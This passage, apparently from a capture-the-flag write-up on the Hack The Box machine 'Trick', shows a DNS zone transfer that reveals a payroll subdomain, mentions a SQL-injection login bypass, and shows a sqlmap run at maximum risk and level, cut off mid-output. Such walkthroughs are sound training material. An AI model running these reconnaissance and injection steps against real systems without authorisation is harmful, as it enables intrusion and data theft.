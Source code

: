 ```jsx
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1

;; Query time: 59 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (UDP)
;; WHEN: Sat Jul 05 05:48:16 EDT 2025
;; MSG SIZE  rcvd: 163
```

We got a domain name, adding this to /etc/hosts

GETTING THE ZONE TRANSFER RECORDS

```jsx
➜  trick dig @10.10.11.166 axfr trick.htb   

; <<>> DiG 9.20.9-1-Debian <<>> @10.10.11.166 axfr trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 259 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Sat Jul 05 05:50:48 EDT 2025
;; XFR size: 6 records (messages 1, bytes 231)
```

Here we got a subdomain **preprod-payroll.trick.htb**

![image](https://github.com/user-attachments/assets/77857796-a9f0-4602-8ddb-88f792b0ff4b)


Here we see a simple login page so trying a basic auth bypass sqli payload

![image](https://github.com/user-attachments/assets/c63f5214-4936-4455-b700-bf8018c29cc4)


Copying the request to check dump database using sqlmap.

```jsx
➜  trick sqlmap -r sql.req --risk 3 --level 5 --batch                                                                                          
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:58:38 /2025-07-05/

[05:58:38] [INFO] parsing HTTP request from 'sql.req'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[05:58:38] [INFO] resuming back-end DBMS 'mysql' 
[05:58:38] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
```